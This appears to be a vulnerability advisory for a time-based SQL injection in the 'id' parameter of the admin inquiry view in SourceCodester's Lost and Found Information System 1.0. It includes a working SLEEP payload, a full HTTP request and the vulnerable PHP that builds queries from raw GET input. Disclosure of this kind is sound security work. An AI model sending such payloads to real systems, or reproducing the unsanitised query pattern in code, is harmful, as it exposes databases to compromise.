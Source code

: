 # SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 GET PARAMETER inquiries/view_inquiry ID SQL INJECTION

## Vendor Homepage:
https://www.sourcecodester.com

## Software Link:
LOST AND FOUND INFORMATION SYSTEM
https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html

## Tested On:
Window 11, XAMPP

## Affected Page:
php-lfis/admin/?page=inquiries/view_inquiry&id=

## Description:
A vulnerability SQL injection was found in SourceCodester Lost and Found Information System 1.0. It has been classified as critical. SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.

## Proof of Concept:
### 1. Visit page: /php-lfis/admin/?page=inquiries/view_inquiry&id=1
### 2. Intercept request and inject payload sql query in param 'id' to sleep 5 second: 
```
'+AND+(SELECT+1200+FROM+(SELECT(SLEEP(5)))pTou)+AND+'str'%3d'str
```
![image](https://github.com/nguyendinhmanh1111/CVE2023/assets/76999751/f960b8ed-1046-424f-9a6a-2c4c77183eaa)
#### Request:
```
GET /php-lfis/admin/?page=inquiries/view_inquiry&id=1'+AND+(SELECT+1200+FROM+(SELECT(SLEEP(5)))pTou)+AND+'str'%3d'str HTTP/1.1
Host: 192.168.0.106
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/php-lfis/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=0bb98mm26ain42g80sto1khd1r
Connection: close˛
```
## SOURCE CODE VULNERABLE

```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `inquiry_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
		$conn->query("UPDATE `inquiry_list` set `status` = 1 where `id` = '{$id}'");
    }else{
		echo '<script>alert("inquiry ID is not valid."); location.replace("./?page=inquiries")</script>';
	}
}else{
	echo '<script>alert("inquiry ID is Required."); location.replace("./?page=inquiries")</script>';
}
?>
```

